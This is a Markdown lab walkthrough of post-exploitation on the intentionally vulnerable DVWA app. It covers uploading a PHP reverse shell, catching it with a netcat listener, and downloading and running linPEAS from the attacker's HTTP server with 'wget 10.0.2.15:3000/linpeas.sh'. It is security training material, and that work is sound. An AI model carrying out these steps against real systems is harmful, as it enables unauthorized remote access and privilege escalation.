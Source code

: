 # Post Exploitation and Privilege Escalation

### Reverse Shell in DVWA

* Find a reverse shell to use

Since the DVWA is written in PHP, we will have to use a PHP based reverse shell. The first result after a Google search [is the pentestingmonkey revrse shell])(https://github.com/pentestmonkey/php-reverse-shell).

We will need to clone the repo:
![Screenshot 2022-03-10 164630](https://user-images.githubusercontent.com/19424915/157690757-aef2721f-d59c-472a-a9e0-e4defd4cd045.png)

* Adjust the Reverse Shell to match our demands

We will first need to find out the attack machine (Kali) IP address:
![Screenshot 2022-03-10 165807](https://user-images.githubusercontent.com/19424915/157691425-980327f4-cce9-4bd3-b674-0f64511ece2f.png)

Then, we can edit the revese shell code with our IP address and the port we will be listening to:
![Screenshot 2022-03-10 171526](https://user-images.githubusercontent.com/19424915/157692165-ca94d8d0-1a7c-4b69-8af7-3c3e25ed6d3b.png)

* Acheive Reverse Shell

We need to start a netcat instace on our attack machine which is going to listent to the port we have already specified in the Reverse Shell code - in our case "12345".
![Screenshot 2022-03-10 172410](https://user-images.githubusercontent.com/19424915/157695024-a57e8bdf-d0b3-484f-8da1-2f4cf17ffc84.png)

Once we have a listener up and ready we can upload and start the Reverse Shell.
![Screenshot 2022-03-10 172219](https://user-images.githubusercontent.com/19424915/157695200-99dd92b1-26fc-4fe6-8bb5-3cbc7a66a602.png)
![Screenshot 2022-03-10 172443](https://user-images.githubusercontent.com/19424915/157695224-d5e75372-c7a0-4c0a-8eaa-8927eb50b030.png)

As a result, we acheive remote access to the atacked machine (DVWA) terminal.
![Screenshot 2022-03-10 172505](https://user-images.githubusercontent.com/19424915/157695658-6ac33e32-d544-488f-a1d2-327bb03c730c.png)

### Find out DVWA vulnerabilities

* Get linPEAS

We will need a tool which will be responsible for giving us a vulnarability report for DVWA. We can user linPEAS to tackle this chellenge.
![Screenshot 2022-03-10 174233](https://user-images.githubusercontent.com/19424915/157699350-26f92e17-573d-415b-8e8c-ffe975460e9c.png)
![Screenshot 2022-03-10 174458](https://user-images.githubusercontent.com/19424915/157699369-7c765eb6-ff8f-43f8-a7ca-4941616a01cf.png)

* Upload linPEAS on DVWA

Now, we will have to somehow upload the linpeas script on our attacked machine. We can acheive this by serving the directory with the desired script file and than we can download it from the DVWA reverse shell.

For serving the linPEAS directory we can use a simple python http server.
![Screenshot 2022-03-10 220737](https://user-images.githubusercontent.com/19424915/157745874-676200e1-8acd-4b30-ace2-6ac6cd45c9d0.png)

Using the reverse shell we can download the `linpeas.sh` file from our http server. In our case, since the server listens on port `3000`, we will have to run `wget 10.0.2.15:3000/linpeas.sh`. If we try to simply run the command, we will receive a `permission denied` error, which obviously means that our user (`nobody`) cannot write in the current directory. So, we will need to find a directory where we can have write privileges. The most common linux directory with such description is the `/tmp` directory. It is used for files that are temporarily required by the system (Linux based). Which mean that most probably this directory will allow us to write in it. We can verify that by running `ls -la` which will list us the directories and their permissions.

![Screenshot 2022-03-11 002352](https://user-images.githubusercontent.com/19424915/157764788-cee07e81-3e0d-49bb-8d60-3e0126a60a58.png)

Since we have found a place to write, we can step further and download the script in the `/tmp` dir.

![Screenshot 2022-03-10 183107](https://user-images.githubusercontent.com/19424915/157765177-69091530-cb95-40c3-bc9f-70bd5e29a81a.png)

We have the script we need, we can go and just run it with `./linpeas.sh`. However, we again hit a `permission denied` error. Running `ls -la` we can observe that the only privileges we have are `w` (write) and `r` (read), but we have no `x` (execute). So, we must add it - `chmod +x linpeas.sh`.

![Screenshot 2022-03-10 215055](https://user-images.githubusercontent.com/19424915/157766026-9cf5cda3-2fdc-4822-9dd3-84b04d5671aa.png)
 
 Finally, we can run the script and analyze the result. The report is еxhaustive and contains almost everything we need to know about the attacked machine.
 
 ![Screenshot 2022-03-10 215400](https://user-images.githubusercontent.com/19424915/157766375-a3d6b611-7e51-4b95-b330-b191ca8ecac8.png)
